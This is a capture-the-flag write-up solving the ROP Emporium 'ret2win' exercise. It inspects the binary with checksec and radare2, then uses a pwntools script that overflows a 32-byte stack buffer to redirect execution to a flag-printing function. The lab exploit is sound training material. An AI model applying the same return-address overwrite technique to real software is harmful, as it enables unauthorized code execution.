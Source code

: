 1. `file ret2win`, gdb-peda `checksec` take a look.

```bash
$ file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```

```bash
$ gdb-peda ret2win
Reading symbols from ret2win...
(No debugging symbols found in ret2win)
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$
```

2. `r2 ret2win`, `aa`, `afl`. There're some special function, we'll check them later.

```bash
$ r2 ret2win
[0x004005b0]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x004005b0]> afl
0x004005b0    1 42           entry0
0x004005f0    4 42   -> 37   sym.deregister_tm_clones
0x00400620    4 58   -> 55   sym.register_tm_clones
0x00400660    3 34   -> 29   sym.__do_global_dtors_aux
0x00400690    1 7            entry.init0
0x004006e8    1 110          sym.pwnme
0x00400580    1 6            sym.imp.memset
0x00400550    1 6            sym.imp.puts
0x00400570    1 6            sym.imp.printf
0x00400590    1 6            sym.imp.read
0x00400756    1 27           sym.ret2win
0x00400560    1 6            sym.imp.system
0x004007f0    1 2            sym.__libc_csu_fini
0x004007f4    1 9            sym._fini
0x00400780    4 101          sym.__libc_csu_init
0x004005e0    1 2            sym._dl_relocate_static_pie
0x00400697    1 81           main
0x004005a0    1 6            sym.imp.setvbuf
0x00400528    3 23           sym._init
[0x004005b0]>
```
3. `s main`, `VV` to see what main function do. it seems nothing special in main function but call the function pwnme and print some strings. So we go to see what happends in the function pwnme.
![Image](https://i.imgur.com/jiYjxOg.png)

4. `s sym.pwnme`, `VV`. In this function, we found the input will be put at **var_20h(rbp-0x20)**. 

![Image](https://i.imgur.com/p38FkK4.png)

![Image](https://i.imgur.com/9WEcrRi.png)

5. let's look at another function ret2win. `s sym.ret2win`, `VV`. we saw it will print the flag we want, so we know that our mission is to BOF the pwnme function's stack and put the address of ret2win function to the return address of pwnme's stack frame.

![Image](https://i.imgur.com/R3cHeB1.png)

6. write the exploit script bellow.

```python
from pwn import *

r = process('./ret2win')
#r = remote('120.114.62.211', 6126)

payload = b'A'*40

r.sendline(payload + p64(0x00400756))  #if 64 bit ,or 32bit use p32

r.interactive()
```
7. run the script and we can get the flag.

```zsh
$ python3 exploit_ret2win.py
[+] Starting local process './ret2win': pid 715
[*] Switching to interactive mode
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
```

the flag is：ROPE{a_placeholder_32byte_flag!}